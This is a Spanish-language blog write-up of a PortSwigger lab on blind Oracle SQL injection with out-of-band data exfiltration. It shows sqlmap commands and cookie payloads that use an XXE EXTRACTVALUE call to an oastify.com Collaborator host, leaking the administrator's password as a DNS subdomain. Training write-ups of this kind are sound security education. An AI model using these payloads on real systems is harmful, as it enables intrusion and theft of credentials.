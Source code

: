 ```yaml
---
title: Blind SQL injection with out-of-band data exfiltration
description: Laboratorio de Portswigger sobre SQLI
date: 2025-02-12 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SQLI
tags:
  - Portswigger Labs
  - SQLI (Out Of Band)
  - Blind SQL injection with out-of-band data exfiltration
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `Blind SQL Injection`, la aplicación utiliza una `cookie` de seguimiento para análisis y realiza una `consulta SQL` que incluye el valor de la cookie enviada. La `consulta SQL` se ejecuta de forma asíncrona y no afecta la respuesta de la aplicación. Sin embargo, puedes `desencadenar` interacciones `out-of-band` con un `dominio externo`. La `base` de `datos` contiene una `tabla` diferente llamada `users`, con columnas llamadas `username` y `password`. Hay que `explotar` la `Blind SQL Injection` para descubrir la `contraseña` del usuario `administrador` e `iniciar sesión` en su `cuenta`

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI-Guide/](https://justice-reaper.github.io/posts/SQLI-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-17/image_1.png)

Hay algunas `Out-of-Band SQL Injections` que no pueden ser detectadas o explotadas por `sqlmap`. En estas situaciones podemos `realizar` un `escaneo completo` con `Burpsuite` para `detectarlas`, para ello, debemos `capturar` la `petición` y pulsar `click derecho > Scan`

![](/assets/img/SQLI-Lab-17/image_2.png)

Posteriormente se nos `abrirá` esta `ventana`, en la cual debemos de `seleccionar` la opción `Crawl and audit`

![](/assets/img/SQLI-Lab-17/image_3.png)

Posteriormente deberemos `seleccionar` la `configuración` del `escaneo`. Recomendaría usar `Deep`, ya que, es el más `completo`. Una vez seleccionadas estas opciones `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-17/image_4.png)

Si nos dirigimos a `Dashboard` veremos que nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-17/image_5.png)

Otra opción más específica es `escanear` los `insertion points`. Para ello, `enviamos` la `petición` al `Intruder` y `seleccionamos` los `insertion points` a `analizar`

![](/assets/img/SQLI-Lab-17/image_6.png)

Posteriormente pulsamos `click derecho > Scan defined insertion points > Open scan launcher`, seleccionamos `Audit selected items` y `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-17/image_7.png)

![](/assets/img/SQLI-Lab-17/image_8.png)

Si nos dirigimos a `Dashboard` veremos que también nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-17/image_9.png)

También es posible detectar las `Out-of-Band SQL Injections` mediante `sqlmap`. Para ello, necesitamos `instalar` la `extensión` de `Burpsuite` llamada `SQLMAP DNS Collaborator`

![](/assets/img/SQLI-Lab-17/image_10.png)

Una vez instalada nos dirigimos a `Extensions > Installed` y pulsamos sobre el `nombre de la extensión`. Vemos que en la `primera línea` nos muestra un servidor `--dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com`, este es el que debemos usar al ejecutar `sqlmap`

![](/assets/img/SQLI-Lab-17/image_11.png)

Cada vez que queramos un `nuevo servidor` debemos `pulsar` sobre el `cuadro de texto` de la `extensión` para `desactivarla` y luego `pulsar nuevamente` para cargarla

![](/assets/img/SQLI-Lab-17/image_12.png)

Ejecutamos `sqlmap` con `sudo`

```
# sudo sqlmap -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --dbs --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB" --dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com --dbms oracle
```

Si encuentra algo, se `mostrará` en el apartado de `Show in UI`

![](/assets/img/SQLI-Lab-17/image_13.png)

Como alternativa, podemos usar `sqlmapsh` [https://github.com/unlock-security/sqlmapsh.git](https://github.com/unlock-security/sqlmapsh.git). Se usaría de la misma forma que `sqlmap`, pero no es necesario proporcionar el parámetro `--dns-domain`, ya que lo hace internamente

```
# sudo sqlmapsh -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net --risk=3 --level=5 --random-agent --dbs --batch --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB"
```

Este `laboratorio` no se puede resolver usando `sqlmap` o `sqlmapsh`. La única forma que hay de `identificar` la `inyección SQL` es `manualmente` o mediante el `escáner` de `Burpsuite`. Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`, probando los `payload` de [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). En este caso vamos a usar este `payload`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- - 
```

Antes de `enviar` la `petición` debemos hacer `click` en `Collaborator > Copy to clipboard`. El subdominio copiado lo `sustituimos` por el campo `BURP-COLLABORATOR-SUBDOMAIN`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/"> %remote;]>'),'/l') FROM dual)-- - ; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Una vez hecho esto debemos `urlencodear` el `payload` y `enviar` la `petición`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Si nos dirigimos a la parte de `Collaborator` y pulsamos en `Poll now` nos llegarán las `peticiones` a nuestro servidor

![](/assets/img/SQLI-Lab-17/image_14.png)

Una vez `comprobada` la `vulnerabilidad` vamos a usar este `payload` para poder hacer consultas a la `base` de `datos`

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Adaptamos el `payload` y lo `enviamos`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+username+from+users+where+username='administrator')||'.dyfeetuao1j68ybs1s9l6ajsajga44st.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Si nos dirigimos a la parte de `Collaborator` y pulsamos en `Poll now`, vemos que como subdominio se está enviando el `output` de la `query`

![](/assets/img/SQLI-Lab-17/image_15.png)

`Enviamos` el siguiente `payload` para `obtener` la `contraseña` del usuario `administrador`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+password+from+users+where+username='administrator')||'.dyfeetuao1j68ybs1s9l6ajsajga44st.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

`Obtenemos` la `contraseña` del usuario `administrador`

![](/assets/img/SQLI-Lab-17/image_16.png)

Nos `logueamos` como usuario `administrador`

![](/assets/img/SQLI-Lab-17/image_17.png)
